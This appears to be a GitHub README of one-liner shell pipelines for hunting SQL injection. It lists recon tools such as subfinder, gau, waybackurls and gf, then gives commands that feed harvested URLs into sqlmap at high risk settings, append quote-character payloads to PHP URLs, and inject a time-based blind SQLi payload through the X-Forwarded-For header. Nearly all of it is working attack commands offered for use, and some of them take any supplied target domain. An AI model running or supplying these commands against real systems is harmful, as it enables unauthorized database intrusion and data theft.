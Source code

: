 # One-Liner-Collections
This Repositories contains list of One Liners with Descriptions and Installation requirements

────────────────────────────────────────────────────────────────────────



# SQL Injection

## Installation Requirements
1. Subfinder   : https://github.com/projectdiscovery/subfinder 
2. GAU         : https://github.com/lc/gau
3. GF          : https://github.com/tomnomnom/gf
4. Findomain   : https://github.com/Findomain/Findomain
5. HTTPX       : https://github.com/projectdiscovery/httpx
6. Anew        : https://github.com/tomnomnom/anew
7. Waybackurls : https://github.com/tomnomnom/waybackurls
8. SQLiDetector: https://github.com/eslam3kl/SQLiDetector

## OneLiner
```
echo http://testphp.vulnweb.com | waybackurls > wayback_urls_for_target.txt ; python3 sqlidetector.py -f  wayback_urls_for_target.txt

```
```
subfinder -d http://TARGET.com -silent -all | gau - blacklist ttf,woff,svg,png | sort -u | gf sqli >gf_sqli.txt; sqlmap -m gf_sqli.txt --batch --risk 3 --random-agent | tee -a sqli_report.txt
```

```
findomain -t http://testphp.vulnweb.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1
```

```
cat urls.txt | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | while read url do ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mSQLI by Cybertix\e[0m" || echo -e "$url \e[1;31mNot Vulnerable to SQLI Injection\e[0m" ;done

```

```
waybackurls target | grep -E '\bhttps?://\S+?=\S+' | grep -E '\.php|\.asp' | sort -u | sed 's/\(=[^&]*\)/=/g' | tee urls.txt | sort -u -o urls.txt && cat urls.txt | xargs -I{} sqlmap --technique=T --batch -u "{}"
```

### Header-Based Blind SQL injection

```
cat domain.txt | httpx -silent -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(13),0))OR" -rt -timeout 20 -mrt '>13'
```
